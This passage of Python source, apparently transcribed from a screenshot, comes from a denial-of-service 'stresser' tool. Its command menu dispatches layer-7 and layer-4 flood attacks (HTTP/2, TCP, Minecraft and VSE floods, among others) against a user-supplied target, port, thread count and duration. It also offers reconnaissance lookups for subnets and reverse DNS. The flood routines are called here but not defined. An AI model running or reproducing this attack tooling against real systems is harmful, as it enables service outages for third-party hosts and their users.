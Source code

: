         threading.Thread(target=attackslow, args=(target, t, thread)).start()
        timer = threading.Thread(target=countdown, args=(t,))
        timer.start()
        timer.join()
    elif command == "http2":
        target, thread, t = get_info_l7()
        threading.Thread(target=attackhttp2, args=(target, t, thread)).start()
        timer = threading.Thread(target=countdown, args=(t,))
        timer.start()
        timer.join()        
    elif command == "stellar":
        target, thread, t = get_info_l7()
        threading.Thread(target=attackSTELLAR, args=(target, t, thread)).start()
        timer = threading.Thread(target=countdown, args=(t,))
        timer.start()
        timer.join()
    elif command == "lionl4" or command == "LIONL4":
        target, port, thread, t = get_info_l4()
        threading.Thread(target=runsender, args=(target, port, t, thread)).start()
        timer = threading.Thread(target=countdown, args=(t,))
        timer.start()
        timer.join()
    elif command == "tcp" or command == "TCP":
        target, port, thread, t = get_info_l4()
        threading.Thread(target=runflooder, args=(target, port, t, thread)).start()
        timer = threading.Thread(target=countdown, args=(t,))
        timer.start()
        timer.join()
    elif command == "mine" or command == "MINE":
        target, port, thread, t = get_info_l4()
        threading.Thread(target=runmine, args=(target, port, t, thread)).start()
        timer = threading.Thread(target=countdown, args=(t,))
        timer.start()
        timer.join()
    elif command == "vse" or command == "VSE":
        target, port, thread, t = get_info_l4()
        threading.Thread(target=runvse, args=(target, port, t, thread)).start()
        timer = threading.Thread(target=countdown, args=(t,))
        timer.start()
        timer.join()        

##############################################################################################     
    elif command == "subnet":
        stdout.write(Fore.MAGENTA+" [>] "+Fore.WHITE+"IP "+Fore.LIGHTGREEN_EX+": "+Fore.LIGHTGREEN_EX)
        target = input()
        try:
            r = requests.get(f"https://api.hackertarget.com/subnetcalc/?q={target}")
            print(r.text)
        except:
            print('An error has occurred while sending the request to the API!')                   
            
    elif command == "dns":
        stdout.write(Fore.MAGENTA+" [>] "+Fore.WHITE+"IP/DOMAIN "+Fore.LIGHTGREEN_EX+": "+Fore.LIGHTGREEN_EX)
        target = input()
        try:
            r = requests.get(f"https://api.hackertarget.com/reversedns/?q={target}")
            print(r.text)
        except:
            print('An error has occurred while sending the request to the API!')
            